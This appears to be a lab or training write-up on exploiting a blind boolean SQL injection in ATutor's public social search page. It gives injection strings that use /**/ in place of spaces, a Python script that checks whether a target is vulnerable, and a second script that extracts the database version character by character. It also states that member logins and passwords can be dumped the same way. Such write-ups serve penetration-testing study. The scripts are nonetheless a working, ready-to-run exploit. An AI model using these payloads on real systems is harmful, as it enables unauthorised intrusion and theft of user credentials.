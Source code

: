 ## A Small Hurdle
Extracting the data from the database with our blind SQLi, isn't as straight forward.
Our payloads cannot contain any spaces, since they are used as delimiters in the query construction process.

However, since this is an ATutor-related constraint and not something inherent to MySQL, we can replace spaces with anything that constitutes a valid space substitute in MySQL syntax.
For instance, instead of a normal query we can use the following query:

```sql
select/**/1;
```


## Baseline Exploit
Now that we are fully aware of the restrictions in place, our first goal is to create a very simple dummy TRUE/FALSE injection subquery.
The best way to exploit a blind boolean based sqli, is to compare HTML responses.
We can craft simple or even complex boolean based queries to the webserver, and then compare html responses to exfiltrate required data.

2 dummy injections are as follows:
```mysql
#TRUE STATEMENT:
AAAA')/**/or/**/(select/**/1)=1%23;

#FALSE STATMENT:
AAAA')/**/or/**/(select/**/1)=0%23
```

We can also use the atutor mysql database to confirm that these queries will work:

![](../../03.%20Screenshots/t1-ss24.png)

We see that the query returns a 1 as a boolean true result, if we change the 1 to a 0, we get a 0 as a false.

We can use our dummy injections and use a python script to check if the target is vulnerable or not:

```python
import requests
import sys

def searchFriends_sqli(ip, inj_str, query_type):
    target = "http://%s/ATutor/mods/_standard/social/index_public.php?q=%s" % (ip, inj_str)
    r = requests.get(target)
    content_length = int(r.headers['Content-Length'])
    if (query_type==True) and (content_length > 20):
        return True
    elif (query_type==False) and (content_length == 20):
        return True
    else:
        return False

def main():
    if len(sys.argv) != 2:
        print "(+) usage: %s <target>"  % sys.argv[0]
        print '(+) eg: %s 192.168.121.103'  % sys.argv[0]
        sys.exit(-1)

    ip = sys.argv[1]

    false_injection_string = "test')/**/or/**/(select/**/1)=0%23"
    true_injection_string  = "test')/**/or/**/(select/**/1)=1%23"

    if searchFriends_sqli(ip, true_injection_string, True):
        if searchFriends_sqli(ip, false_injection_string, False):
            print "(+) the target is vulnerable!"

if __name__ == "__main__":
    main()
```

The following sends 2 sqli payloads, if the content length(html response) is more than 20, the result of the boolean query is true.
However, if it's less than 20, it's a false.

Running the script, we find that the web app is vulnerable:

![](../../03.%20Screenshots/t1-ss25.png)

## Building The Query
With the baseline exploit ready, we can now build on our script and payload, in order to exfiltrate valuable data.
Given the fact that we are dealing with a blind SQL injection, we have to resort to a byte-by-byte approach.
A query we can use will compare each byte of the subquery result (MySQL version) with a set of characters of our choice.
For instance, we can ask if the first character of the version string is a "4" or "5":
```sql
select/**/(substring((select/**/version()),1,1))='4';
select/**/(substring((select/**/version()),1,1))='5';
```

If the first character of the version string matches with the character we provide, we'll get a true statement, and vice-versa:

![](../../03.%20Screenshots/t1-ss26.png)

For this payload, we rely on the [substring function](https://www.w3resource.com/mysql/string-functions/mysql-substring-function.php).
It is good practice to convert the resultant character to its numeric ASCII value and then perform the comparison.

Our new exploit script would look like as follows:
```python
import requests
import sys

def searchFriends_sqli(ip, inj_str):
    for j in range(32, 126):
        # now we update the sqli
        target = "http://%s/ATutor/mods/_standard/social/index_public.php?q=%s" % (ip, inj_str.replace("[CHAR]", str(j)))
        r = requests.get(target)
        content_length = int(r.headers['Content-Length'])
        if (content_length > 20):
            return j
    return None    

def main():
    if len(sys.argv) != 2:
        print "(+) usage: %s <target>"  % sys.argv[0]
        print '(+) eg: %s 192.168.121.103'  % sys.argv[0]
        sys.exit(-1)

    ip = sys.argv[1]

    print "(+) Retrieving database version...."

    # 19 is length of the version() string. This can
    # be dynamically stolen from the database as well!
    for i in range(1, 20):
        injection_string = "test')/**/or/**/(ascii(substring((select/**/version()),%d,1)))=[CHAR]%%23" % i
        extracted_char = chr(searchFriends_sqli(ip, injection_string))
        sys.stdout.write(extracted_char)
        sys.stdout.flush()
    print "\n(+) done!"

if __name__ == "__main__":
    main()
```

Running the script against our target, we get an error but are still able to extract the database version:

![](../../03.%20Screenshots/t1-ss27.png)

We can similarly extract login names and passwords which are stored in AT_members in the database.
